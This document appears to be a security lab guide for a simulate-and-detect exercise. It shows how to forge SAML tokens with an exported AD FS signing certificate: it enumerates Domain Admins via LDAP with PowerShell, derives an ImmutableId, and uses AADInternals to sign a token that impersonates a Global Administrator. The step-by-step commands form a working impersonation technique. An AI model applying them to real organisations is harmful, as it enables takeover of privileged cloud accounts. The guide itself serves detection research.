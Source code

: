 # Forge SAML Tokens with Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to [export the AD FS token signing certificate](exportADFSTokenSigningCertificate.md) from an AD FS server, it is just a matter of time until it is used to sign new SAML tokens and impersonate users in a federated environment. 

## Sumulate & Detect
1.	[Enumerate privileged accounts](#enumerate-privileged-accounts).
2.	[Forge SAML token](#forge-saml-token).

## Enumerate Privileged Accounts

Let's start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named `pgustavo` was also the account that was assigned the Azure AD built-in  Global Administrator   role. Therefore, we can start by enumerating the members of the `Domain Admins` group.

### Enumerate Members of the Domain Admins Group via Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: AD FS Server (ADFS01)
    * Authorization: AD FS service account or domain user
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

1.  Connect to the AD FS server (ADFS01) via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_01_get_domain_admins.png)

## Forge SAML Token

A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.

**Preconditions**
* Endpoint: AD FS Server (ADFS01)
  * Even when this step would happen outside of the organization, we can use the same PowerShell session we used in the previous section.
  * Authorization: Local Administrator
  * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
  * AD FS token signing certificate:
    * In a previous step, we [exported the AD FS token signing certificate as a PFX file](exportADFSTokenSigningCertAsPfxFile.md) to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx` (default).

### Convert User AD Object GUID to its Azure AD Immutable ID representation

1.  Once we identify the privileged user we want to impersonate, we need to obtain the `immutable ID` of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$Results[1].Samaccountname
$Results[1].ObjectGuid
$ObjectGUID = $Results[1].ObjectGuid
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
$ImmutableId
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_02_get_immutable_id.png)

### Install AADInternals

2.  Start a new PowerShell session as administrator and run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force
```

3. Go back to the PowerShell session where you calculated the `ImmutableId` and import AADInternals

```PowerSHell
Import-Module AADInternals
```

### Sign a New SAML Token

4. Use the `New-AADIntSAMLToken` function to sign a new SAML token with the following information:
  * The `ImmutableID` we got in the first section.
  * The path to the token signing certificate file.
  * The AD FS token issuer url.

```PowerShell 
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
$SamlToken
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_04_sign_saml_token.png)

## Output

Use the variable `$SamlToken` in the next step to [get an access token via SAML bearer assertion flow](../persistence/getAccessTokenSAMLBearerAssertionFlow.md) for resources such as the Microsoft Graph API.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
